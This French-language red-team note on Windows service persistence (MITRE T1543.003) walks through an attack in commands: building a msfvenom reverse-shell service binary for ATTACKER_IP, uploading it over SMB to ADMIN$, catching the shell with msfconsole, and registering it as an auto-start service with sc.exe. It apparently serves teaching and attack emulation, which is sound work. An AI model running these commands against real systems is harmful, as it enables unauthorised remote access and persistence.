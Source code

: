 Les pirates peuvent créer ou modifier des services Windows pour exécuter de manière répétée des charges malveillantes dans le cadre de la persistance. Au démarrage de Windows, des programmes ou applications appelés services exécutent des fonctions système en arrière-plan. (Citation : TechNet Services) Les informations de configuration des services Windows, notamment le chemin d'accès aux fichiers exécutables ou aux programmes/commandes de récupération, sont stockées dans le Registre Windows.

#### Example 
Creation d'un shell inverse

```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

Nous avons télécharger notre charge utile sur le partage ADMIN$

```bash
smbclient -c 'put myservice.exe' -U $name$ -W $domaine '//$partage$/admin$/' $password$
```

Une fois notre exécutable téléchargé, nous allons configurer un écouteur sur la machine de l'attaquant pour recevoir le reverse shell de `msfconsole`:

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST $IP$; set LPORT 4444;exploit"
```

Et enfin, procédez à la création d'un nouveau service à distance en utilisant sc, en l'associant à notre binaire téléchargé

```PowerShell
C:\> sc.exe \\DossierPartage create service-3249 binPath= "%windir%\myservice.exe" start= auto 
C:\> sc.exe \\DossierPartage start service-3249
```

https://attack.mitre.org/techniques/T1543/003/
https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1543.003/T1543.003.md?plain=1